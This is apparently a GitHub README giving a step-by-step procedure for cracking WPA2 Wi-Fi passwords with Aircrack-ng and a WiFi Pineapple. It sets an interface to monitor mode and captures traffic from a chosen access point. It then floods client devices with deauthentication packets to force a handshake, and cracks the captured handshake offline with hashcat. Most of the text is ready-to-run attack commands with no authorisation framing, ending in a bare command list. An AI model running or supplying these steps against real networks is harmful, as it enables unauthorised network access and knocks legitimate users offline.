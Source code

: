 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

  As the packets are sent frames on the target increase until it get's disconnected
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
     ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c







<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
